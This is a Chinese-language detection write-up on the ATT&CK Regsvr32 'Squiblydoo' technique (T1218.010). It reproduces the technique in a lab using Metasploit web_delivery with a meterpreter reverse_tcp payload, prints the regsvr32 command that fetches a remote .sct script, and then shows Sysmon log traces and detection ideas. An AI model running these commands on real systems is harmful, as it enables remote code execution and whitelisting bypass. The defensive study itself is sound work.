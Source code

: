 # T1218-010-win-基于白名单Regsvr32执行payload

## 来自ATT&CK的描述

命令行程序Regsvr32.exe用于在Windows系统上注册和注销对象链接及嵌入控件，包括动态链接库（DLL）。Regsvr32.exe可用于执行任意二进制文件。

攻击者可能会利用此功能代理执行代码，从而避免触发那些可能不会监控regsvr32.exe进程执行及其加载模块的安全工具，因为正常操作中使用regsvr32.exe的Windows会有白名单或误报。Regsvr32.exe也是微软签名的二进制文件。

Regsvr32.exe还可用于专门绕过进程白名单，方法是加载COM脚本小程序在用户权限下执行动态链接库。由于regsvr32.exe具有网络和代理感知功能，可以在调用期间将URL作为参数传递到外部web服务器上的文件来加载脚本。此方法不对注册表进行任何更改，因为COM对象实际上未注册，仅执行。这个技术变种通常称为“Squiblydoo”攻击，已被攻击者用于针对政府的活动中。

攻击者还可能会利用Regsvr32.exe来注册COM对象以便通过COM劫持建立持久性。

## 测试案例

Regsvr32命令用于注册COM组件，是 Windows 系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行。WinXP及以上系统的regsvr32.exe在windows\system32文件夹下；2000系统的regsvr32.exe在winnt\system32文件夹下。但搭配regsvr32.exe使用的 DLL，需要提供 DllRegisterServer 和 DllUnregisterServer两个输出函式，或者提供DllInstall输出函数。

说明：Regsvr32.exe所在路径已被系统添加PATH环境变量中，因此，Regsvr32命令可识别。

默认位置：

```bash
C:\WINDOWS\SysWOW64\regsvr32.exe
C:\WINDOWS\system32\regsvr32.exe
```

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7（sysmon日志）

### 攻击分析

#### 配置MSF

```bash
msf5 > use exploit/multi/script/web_delivery
msf5 exploit(multi/script/web_delivery) > set target 3
target => 3
msf5 exploit(multi/script/web_delivery) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/script/web_delivery) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Using URL: http://0.0.0.0:8080/06Yud7aXXqYqT
[*] Local IP: http://192.168.126.146:8080/06Yud7aXXqYqT
[*] Server started.
[*] Run the following command on the target machine:
regsvr32 /s /n /u /i:http://192.168.126.146:8080/06Yud7aXXqYqT.sct scrobj.dll
```

#### 靶机执行payload

```cmd
regsvr32 /s /n /u /i:http://192.168.126.146:8080/jnOUcgr0b0 scrobj.dll
```

#### 反弹shell

```bash
msf5 exploit(multi/script/web_delivery) > [*] 192.168.126.149  web_delivery - Handling .sct Request
[*] 192.168.126.149  web_delivery - Delivering Payload (1900 bytes)
[*] 192.168.126.149  web_delivery - Handling .sct Request
```

以失败告终，windows powershell已停止工作

## 测试留痕

```log
EventID：1
Image: C:\Windows\System32\regsvr32.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: Microsoft(C) Register Server
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: REGSVR32.EXE
CommandLine: regsvr32  /s /n /u /i:http://192.168.126.146:8080/06Yud7aXXqYqT.sct scrobj.dll
# sysmon日志
```

## 检测规则/思路

无具体检测规则。

通过进程监控来检测和分析regsvr32.exe的执行和参数。比较regsvr32.exe的近期调用与历史已知合法参数及已加载文件来确定是否有异常和潜在的攻击活动。在regsvr32.exe调用之前和之后使用的命令参数也可用于确定正在加载的脚本或者动态链接库的来源和目的。

## 参考推荐

MITRE-ATT&CK-T1218-010

<https://attack.mitre.org/techniques/T1218/010/>
